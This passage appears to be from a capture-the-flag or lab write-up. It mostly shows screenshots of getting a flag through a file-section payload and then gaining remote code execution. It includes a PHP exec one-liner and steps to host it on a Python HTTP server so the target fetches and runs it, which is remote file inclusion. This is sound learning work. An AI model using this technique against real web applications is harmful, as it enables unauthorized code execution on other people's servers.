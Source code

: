 ![](gitbook/cybersecurity/images/Pasted%252520image%25252020241105182754.png)

Now, let's give the previous payload to the file section:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241105182811.png)

Let's send the request:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241105182825.png)

Nice, we got the flag!

## FOURTH 

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241105182924.png)

We need to gain RCE in that section, let's check:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241105182954.png)

First, let's create a file with the following php code saved as a txt file:

`<?php echo exec("hostname");?>`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241105183103.png)

Now, we need to pass the following to the lab:


```ad-note
- Create a python3 server using: `python3 -m http.server`
- Pass in the following input: `http://ip:port/nameoffile.txt`
- Enjoy!

# POC

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241105183251.png)



```


